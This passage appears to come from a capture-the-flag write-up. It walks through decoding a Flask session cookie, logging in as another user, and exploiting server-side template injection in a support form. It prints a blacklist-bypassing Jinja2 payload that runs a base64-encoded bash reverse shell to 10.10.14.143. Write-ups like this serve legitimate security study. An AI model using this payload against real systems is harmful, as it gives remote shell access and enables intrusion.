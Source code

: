 So I was wrong in assuming the cookie to be JWT , it's actually a flask cookie , which we can decode using `flask-unsign`  

<img src="https://i.imgur.com/Kg9u2g1.png"/>

Also we can do SQL Injection through flask session as well

<img src="https://i.imgur.com/mOW1D1d.png"/>

<img src="https://i.imgur.com/KIDpAfO.png"/>

<img src="https://i.imgur.com/ZD8wuHX.png"/>

We can try logging in with the UUID and password of `chiv` user

<img src="https://i.imgur.com/RH4GGU7.png"/>

Navigating to `View Messagaes` we can see that it's telling to fix the Support Portal, now here if we try to SSTI since the message that we input gets displayed on Support Portal with the message and email , let's try to see which input field is injectable

<img src="https://i.imgur.com/XOQzsUu.png"/>

It accepts our input so let's go to the view support mesages

<img src="https://i.imgur.com/FlNHNnn.png"/>

It doesn't display the result of `{{config}]` so let's try this on `email` input field

<img src="https://i.imgur.com/wt5dH6Z.png"/>

And if we get the message that `{{}}` these are blocked so this was a really frustrating process and it took me days to figure out how to bypass the blacklist , I came across some resources about bypassing the blacklist for SSTI . after a lot of trial and error I understood which words are blocked

```
if , ', . , __ , {{ , }} , set

```

Pretty much these were blacklisted so we can use `{% %}` which are used for statements  and for using `__import__` we can replace `__` with `\x5f\x5f` which is a hexadecimal conversion , we can use `request` to query the information , the final payload will look like this

```
{% print request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDMvMjIyMiAwPiYxCg== |base64 -d|bash")["read"]() %}

```

Since `if` ,`for` was blacklisted we used `print` keyword and the base64 encoded bash reverse shell because `.` was blacklisted 

<img src="https://i.imgur.com/U3n8TxL.png"/>
